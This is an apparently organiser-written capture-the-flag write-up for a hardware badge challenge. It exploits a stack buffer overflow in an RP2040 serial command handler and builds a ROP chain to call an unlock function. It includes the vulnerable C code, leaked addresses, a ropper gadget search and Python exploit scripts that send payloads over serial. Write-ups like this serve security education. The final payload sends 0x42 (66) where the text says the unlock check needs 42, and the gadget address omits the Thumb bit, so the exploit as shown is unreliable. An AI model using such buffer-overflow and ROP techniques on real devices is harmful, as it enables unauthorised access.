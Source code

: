 # Challenge 4

In this challenge, a menu of commands is shown:

```
Available commands:
 * HELP    - this menu
 * VERSION - get version info
 * CLOCK   - clock info
 * REGS    - dump registers
 * UNLOCK  - unlock this vault
 * EXIT    - exit
```

A code snippet presented via mass storage shows us that the unlock function is called with a value of `0`, whereas it only unlocks on a value of `42`:

```c
void unlock(int key) {
    uart_printf("Unlock function located at 0x%p\r\n", unlock);

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    char flag[48] = {0};

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }

    //[..]

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    uart_printf("Unlocked vault: %s\r\n", flag);
}
```

Additionally, another snippet hints the attack vector to be a stack buffer overflow:

```c
void chall4_handler(char *input, int len) {
    char cmd[8];
    memcpy(cmd, input, len);
    //[..]
}
```

Simply guessing the address where the flag is printed is not sufficient, as the flag gets built in steps with argument checks all around them. Therefore, a seemingly good solution is to build a ROP chain that calls `unlock(42)`.

------------

## Identifying TPM chip

The TPM chip is covered in opaque epoxy resin, and does not have any visible markings or exposed debug peripherals. Executing the `REGS` command shows us at least that we're likely dealing with a 32-bit ARM chip:

```
Register dump function located at 0x10000455

R0:  00000000   R1:  20040f5c   R2:  00000003   R3:  00000003
R4:  10004f40   R5:  00000006   R6:  18000000   R7:  00000000
R8:  ffffffff   R9:  ffffffff   R10: ffffffff   R11: ffffffff
R12: 00000024   R13: 20041f80   R14: 10003629   R15: 100004a4
```

Exploring further shows that the chip version is `RP2-B2`, which upon some internet searching shows that this is a RP2040 just like the other chip on the challenge badge, with bootrom version `B2`.
```
Version function located at 0x100003D5
ROM version: 3
Chip version: 2 (RP2-B2)
```

------------

## Building the ROP chain

Some of the commands leak their address when you execute them:
```
Clock function located at 0x10000409
Core number: 0
Clock (REF): 12000000 Hz
Clock (SYS): 125000000 Hz
```

We can overflow `cmd` with the (little-endian) addresses of these functions to validate that the return address of the function that called `chall4_handler` is located at `cmd + 12 bytes`:

```python
import sys, serial

with serial.Serial(sys.argv[1], 115200, timeout=1) as port:
	version_le = b"\xD5\x03\x00\x10"
	clock_le = b"\x09\x04\x00\x10"
	regs_le = b"\x55\x04\x00\x10"
	unlock_le = b"\x0D\x03\x00\x10"
	port.write(version_le + clock_le + regs_le + unlock_le + b"\n")
	while True:
		print(port.read(1024))
```

```python
b'\xd5\x03\x00\x10\t\x04\x00\x10U\x04\x00\x10\r\x03\x00\x10\r\nFrom TPM:\r\nUnknown command\r\nUnlock function located at 0x1000030D\r\nWrong key\r\n'
```

So our first gadget should appear at 12 bytes offset into our payload. Next, we need to find a gadget that puts `42` in register `r0` (which is the first function argument in the ARM EABI) and then jumps to the address of `unlock()`. A common tool for finding gadgets is [ropper](https://github.com/sashs/ropper).

Since we know that the "TPM" RP2040 is running bootrom version B2 just like the other chip on the badge, we could dump the bootrom via USB using `picotool` just like in the first challenge. However, as the RP2040 is open source, we can also just download the bootrom version we need from [https://github.com/raspberrypi/pico-bootrom/releases](https://github.com/raspberrypi/pico-bootrom/releases). Loading `b2.elf` into ropper yields a great candidate gadget:

```bash
> ropper -a ARMTHUMB -f b2.elf 
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======
[..]
0x00003a54 (0x00003a55): pop {r0, r3, r4, r5, pc}; 
```

This gadget pops 4 bytes from the stack into `r0` (which we can use to set it to `42`), 12 bytes into registers we won't use, and 4 bytes into `pc` (which we can use to call `unlock()`). Our payload should look something like this now:

```
<12 bytes filler>
<4 bytes gadget address>
<4 bytes integer 42 value>
<12 bytes filler>
<4 bytes unlock address>
```

------------

## Putting it all together
```python
import sys, serial

with serial.Serial(sys.argv[1], 115200, timeout=1) as port:
	unlock_le = b"\x0D\x03\x00\x10"
	gadget_le = b"\x54\x3A\x00\x00"
	param_le = b"\x42\x00\x00\x00"

	payload = b"A"*12 + gadget_le + param_le + b"A"*12 + unlock_le

	port.write(payload + b"\n")
	while True:
		print(port.read(1024))
```

With some creativity this challenge could be wrangled to dump the other challenge's flags too. Since the effort to do this blindly was in our view comparable to actually doing the other challenges, it was deliberately kept in. It was amazing to see a few teams cleverly making use of this trick to get all flags at once. Well done!